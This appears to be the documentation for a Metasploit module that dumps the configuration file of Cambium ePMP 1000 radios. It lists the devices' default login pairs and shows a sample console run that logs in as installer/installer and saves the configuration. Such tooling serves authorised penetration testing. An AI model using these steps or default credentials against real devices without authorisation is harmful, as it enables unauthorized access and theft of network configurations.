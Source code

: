 This module dumps Cambium ePMP 1000 device configuration file. An ePMP 1000 box has four (4) login accounts - admin/admin, installer/installer, home/home, and readonly/readonly.
This module requires any one of the following login credentials - admin / installer / home - to dump device configuration file.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_dump_config```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/epmp1000_dump_config
msf auxiliary(epmp1000_dump_config) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_dump_config) > set rport 80
msf auxiliary(epmp1000_dump_config) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 3.2...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping configuration
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_ePMP_config_216595.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
